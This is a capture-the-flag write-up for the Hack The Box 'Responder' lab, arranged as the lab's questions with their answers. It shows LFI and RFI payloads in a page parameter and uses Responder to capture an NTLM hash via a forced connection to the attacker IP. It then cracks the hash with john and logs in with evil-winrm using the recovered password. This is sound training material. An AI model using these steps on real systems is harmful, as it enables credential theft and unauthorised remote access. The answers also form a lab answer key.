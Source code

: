 # Link
- https://app.hackthebox.com/starting-point

# Questions

## When visiting the web service using the IP address, what is the domain that we are being redirected to?
- _unika.htb_

## Which scripting language is being used on the server to generate webpages?
- php

## What is the name of the URL parameter which is used to load different language versions of the webpage?
- click on "EN" and select a language to see

## Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
- _../../../../../../../../windows/system32/drivers/etc/hosts_

## Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
- _//10.10.14.6/somefile_

## What does NTLM stand for?
- New Technology LAN Manager

## Which flag do we use in the Responder utility to specify the network interface?
- `-i`

## There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.
- find LFI in `page` param
    - `page=../../../../../../../../windows/system32/drivers/etc/hosts`
- capture NTLM hash of our adm using Responder
    - `sudo responder -I tun0`
```
[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.16.4]
    Responder IPv6             [dead:beef:4::1002]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']
```
- send this request with `responder` active 
    - `page=//10.10.16.4/somefile`
- get the hash and crack with john
    - `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
    - badminton
- tool name: `john the ripper`

## What is the password for the administrator user?
- badminton

## We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?
- `sudo nmap $IP -p- -T4 -sC -sV -Pn`
- 5985

## Submit root flag
- `evil-winrm -u administrator -p badminton -i unika.htb`
- `*Evil-WinRM* PS C:\Users\mike\Desktop> type flag.txt`
